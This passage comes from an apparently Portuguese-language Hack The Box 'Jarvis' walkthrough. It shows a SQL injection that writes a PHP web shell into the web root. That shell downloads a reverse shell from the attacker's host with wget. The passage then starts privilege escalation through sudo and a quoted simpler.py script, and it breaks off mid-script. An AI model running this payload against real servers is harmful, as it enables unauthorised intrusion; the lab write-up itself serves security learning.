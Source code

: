 Executamos no servidor a query para ele baixar o reverse.php na nossa Kali

`GET /room.php?cod=999999 union select "1","2",(select '<?php exec("wget -O /var/www/html/sqli.php http://10.10.16.117/reverse.php"); ?>'),"4","5","6","7" INTO OUTFILE '/var/www/html/rev.php'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_n4.png)

Agora acessamos o rev.php para conseguirmos baixar o arquivo no servidor e ganhar a shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_n5.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_n6.png)

Executamos o sqli.php e ganhamos o shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_n8.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_n7.png)

Bom, agora vamos proseguir na escalação de privilégio

# Escalação de Privilégio -> www-data - Pepper

Com o `sudo -l` verificamos que podemos executar um script como pepper

`/var/www/Admin-Utilities/simpler.py`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_www.png)

Verificamos do que se trata o script que pode ser executado como pepper

Aqui está ele
simpler.py
```
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def show_header():
    print('''***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
```